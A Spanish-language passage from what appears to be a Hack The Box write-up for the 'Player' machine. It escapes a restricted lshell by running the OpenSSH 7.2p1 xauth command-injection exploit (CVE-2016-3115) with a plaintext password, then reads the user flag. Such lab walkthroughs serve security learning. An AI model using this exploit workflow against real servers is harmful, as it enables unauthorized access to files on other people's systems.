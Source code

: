 Pero aparentemente no puedo ejecutar comandos

```null
telegen:~$ id
*** forbidden command: id
telegen:~$ whoami
*** forbidden command: whoami
```

Como shell está asignada una ```lshell```. La versión que se emplea de ```OpenSSH``` es vulnerable a una inyección de comandos

```null
searchsploit openssh 7.2 | grep -i command
OpenSSH 7.2p1 - (Authenticated) xauth Command Injection                                                                                                                        | multiple/remote/39569.py
```

Me traigo el exploit

```null
searchsploit -m multiple/remote/39569.py
  Exploit: OpenSSH 7.2p1 - (Authenticated) xauth Command Injection
      URL: https://www.exploit-db.com/exploits/39569
     Path: /usr/share/exploitdb/exploits/multiple/remote/39569.py
    Codes: CVE-2016-3115
 Verified: False
File Type: ASCII text, with very long lines (407)
Copied to: /home/rubbx/Desktop/HTB/Machines/Player/39569.py
```

Al ejecutar, aparece un menú con las distintas opciones

```null
python2 39569.py 10.10.10.145 6686 telegen 'd-bC|jC!2uepS/w'
/usr/local/lib/python2.7/dist-packages/paramiko/transport.py:33: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography.hazmat.backends import default_backend
INFO:__main__:connecting to: telegen:d-bC|jC!2uepS/w@10.10.10.145:6686
INFO:__main__:connected!
INFO:__main__:
Available commands:
    .info
    .readfile <path>
    .writefile <path> <data>
    .exit .quit
    <any xauth command or type help>

#> 
```

Puedo leer archivos y sobrescribirlos en algunos casos. Obtengo la primera flag

```null
#> .readfile /home/telegen/user.txt
DEBUG:__main__:auth_cookie: 'xxxx\nsource /home/telegen/user.txt\n'
DEBUG:__main__:dummy exec returned: None
INFO:__main__:0cda14ef259265f88e95237ddc44fff2
```
